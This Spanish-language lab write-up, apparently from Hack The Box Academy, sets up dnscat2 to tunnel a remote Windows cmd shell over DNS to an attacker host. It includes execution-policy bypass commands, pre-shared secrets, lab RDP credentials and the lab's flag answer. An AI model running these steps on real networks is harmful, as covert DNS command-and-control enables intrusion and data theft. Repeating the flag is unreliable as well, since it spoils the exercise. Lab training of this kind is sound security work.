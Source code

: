Dnscat2 es una herramienta que tuneliza datos usando el protocolo DNS: en lugar de consultas legítimas, encapsula información dentro de registros TXT y establece un canal cifrado de mando y control entre un cliente y un servidor externo. 
Esto la hace muy sigilosa en entornos corporativos, porque el tráfico DNS suele permitirse y puede eludir inspecciones que se centran en HTTPS u otros protocolos. En el ejemplo de prueba, el servidor dnscat2 se ejecuta en la máquina atacante y el cliente en un equipo Windows de la red, permitiendo la exfiltración de datos mediante resoluciones hacia un DNS externo.

## Instalando Dnscat2
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

## Inicializando Dnscat2
Inicializamos el servidor dns2cat con:

```shell-session
Polika4RM@htb[/htb/dnscat2/server]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

(el parámetro "host" tendrá que tener la dirección IP de la máquinta atacante, que es la misma que ejecuta el comando anterior).

Tras ejecutar el servidor, este nos proporcionará la clave secreta, que deberemos proporcionar a nuestro cliente dnscat2 en el host Windows para que pueda autenticar y cifrar los datos enviados a nuestro servidor dnscat2 externo. Podemos usar el cliente con el proyecto dnscat2 o usar dnscat2-powershell, un cliente basado en PowerShell compatible con dnscat2 que podemos ejecutar desde destinos Windows para establecer un túnel con nuestro servidor dnscat2. Podemos clonar el proyecto que contiene el archivo del cliente en nuestro host de ataque y luego transferirlo al destino.

```
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

Importante, de la salida anterior:   *./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21*

--- 

## Clonando y transfieriendo dnscat2-powershell a la 2a máquina
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Una vez descarguemos y compartamos el archivo "dnscat2.ps1" a la máquina windows con la que queremos tunelizar el tráfico, ejecutaremos en su terminal powershell:
```powershell-session
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force
Import-Module .\dnscat2.ps1
```

Tras importar dnscat2.ps1, podemos usarlo para establecer un túnel con el servidor que se ejecuta en nuestro host de ataque. Podemos enviar una sesión de shell CMD a nuestro servidor.
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Debemos usar el secreto precompartido (-PreSharedSecret) generado en el servidor para garantizar que nuestra sesión se establezca y se cifre. Si todos los pasos se completan correctamente, veremos una sesión establecida con nuestro servidor.


#### Listando opciones de dnscat2

Podemos usar dnscat2 para interactuar con sesiones y avanzar en un entorno objetivo en las interacciones. No cubriremos todas las posibilidades de dnscat2 en este módulo, pero se recomienda practicar con él e incluso encontrar formas creativas de usarlo en una interacción. Interactuemos con nuestra sesión establecida y la incorporemos en un shell.

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

## Interactuando con la sesión establecida
``
``
```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

---
**Target: 10.129.133.101
RDP to  with user "htb-student" and password "HTB_@cademy_stdnt!"**
**1. Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.**

En mi máquina atacante, preparo el archivo dnscat2 con:
```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

Lo ejecuto desde la carpeta /dnscat2/server:
```
sudo ruby dnscat2.rb --dns host=10.10.15.95 ,port=53,domain=inlanefreight.local --no-cache
```

Y me devuelve tal secret: 
```
  ./dnscat --dns server=x.x.x.x,port=53 --secret=57f5c4615e94c4643822079b65083f94
```

Desde otra terminal de la máquina atacante, me descargo el cliente para la máquina windows:

```
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Y lo comparto por http con el comando:
```
┌─[eu-academy-3]─[10.10.15.95]─[htb-ac-1876550@htb-kbrgiqortk]─[~/dnscat2-powershell]
└──╼ [★]$ python3 -m http.server 8080

```

Me conecto por RDP a la sesión windows con:
```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.133.101
```

Entro a firefox, en:
```
http://10.10.15.95:8080
```

Y me descargo el archivo *"dnscat2.ps1"*.

Me ubico con la poweshell en el directorio donde lo he descargado y ejecuto:
```
PS C:\Users\htb-student\Downloads> Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force
>> Import-Module .\dnscat2.ps1
PS C:\Users\htb-student\Downloads>
```
y ejecuto desde la misma poweshell:

```
PS C:\Users\htb-student\Downloads> Start-Dnscat2 -DNSserver 10.10.15.95 -Domain inlanefreight.local -PreSharedSecret 57f5c4615e94c4643822079b65083f94 -Exec cmd 
```

Finalmente, navego a la carpeta de la flag: C:\Users\htb-student\Documents\flag.txt
Y encuentro la respuesta: AC@tinth3Tunnel



